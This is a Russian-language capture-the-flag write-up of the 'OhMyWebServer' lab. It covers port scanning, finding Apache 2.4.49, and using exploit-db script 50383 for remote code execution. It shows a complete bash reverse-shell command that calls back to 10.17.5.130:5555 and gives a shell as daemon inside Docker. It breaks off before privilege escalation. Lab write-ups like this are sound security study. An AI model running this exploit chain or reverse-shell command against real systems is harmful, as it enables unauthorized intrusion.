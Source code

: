 # OhMyWebServer WriteUp (Medium)✅

Перейдя по ip адресу мы попадаем на страницу какого-то сайта, связаного с консалтинговыми услугами

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Просканировав порты, мы модем узнать что на 80 порте находится **Apache-HTTP сервер**, при чем версия Apache - **2.4.49**

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Зайдя на сайт exploit-db.com и прогуглив данную версию ПО Apache, мы можем найти эксплойт, с помощью которого сможем удаленно выполнять код

<figure><img src="../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Скачиваем данный экспойт и тестируем его работу

<figure><img src="../.gitbook/assets/image (26).png" alt=""><figcaption><p>Перед использованием скрипта я создал текстовый файл <strong>ip.txt</strong>, куда вписал ip адрес машины 📌</p></figcaption></figure>

Если мы можем с помощью данного эксплойта выполнять какие-либо команды, то, следовательно, вместо команды ls можно вписать bash\_reverse\_shell и получить оболочку нашей машины

Подключив слушатель заранее, выполняем команду

`./50383.sh ip.txt /bin/sh 'bash -c "bash -i >& /dev/tcp/10.17.5.130/5555 0>&1"'`

и получаем шелл от лица пользователя **daemon**

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption><p>Судя по странному набору букв и цифр после имени пользователя, мы находимся в докере 📌</p></figcaption></figure>

Первый флаг, вероятнее всего, находится в папке root, но мы не имеем прав, чтобы в неё перейти, поэтому придётся выполнять эскалацию привилегий и получать root'a
